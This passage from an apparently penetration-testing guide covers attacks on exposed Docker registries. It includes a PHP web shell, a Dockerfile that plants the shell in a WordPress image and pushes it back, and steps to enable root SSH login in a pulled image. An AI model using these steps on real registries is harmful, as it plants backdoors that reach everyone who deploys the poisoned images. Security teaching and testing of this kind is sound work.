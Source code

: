 ```bash
#<missing>           2 years ago         /bin/sh -c #(nop) COPY dir:0b657699b1833fd59…   16.2MB       

#Run and get a shell
docker run -it 10.10.10.10:5000/ubuntu bash #Leave this shell running
docker ps #Using a different shell
docker exec -it 7d3a81fe42d7 bash #Get ash shell inside docker container
```

### Backdooring WordPress image

In the scenario where you have found a Docker Registry saving a wordpress image you can backdoor it.\
**Create** the **backdoor**:

{% code title="shell.php" %}
```bash
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Create a **Dockerfile**:

{% code title="Dockerfile" %}
```bash
FROM 10.10.10.10:5000/wordpress
COPY shell.php /app/
RUN chmod 777 /app/shell.php
```
{% endcode %}

**Create** the new image, **check** it's created, and **push** it:

```bash
docker build -t 10.10.10.10:5000/wordpress .
 #Create
docker images
docker push registry:5000/wordpress #Push it
```

### Backdooring SSH server image

Suppose that you found a Docker Registry with a SSH image and you want to backdoor it.\
**Download** the image and **run** it:

```bash
docker pull 10.10.10.10:5000/sshd-docker-cli
docker run -d 10.10.10.10:5000/sshd-docker-cli
```

Extract the `sshd_config` file from the SSH image:

```bash
docker cp 4c989242c714:/etc/ssh/sshd_config .
```

And modify it to set: `PermitRootLogin yes`
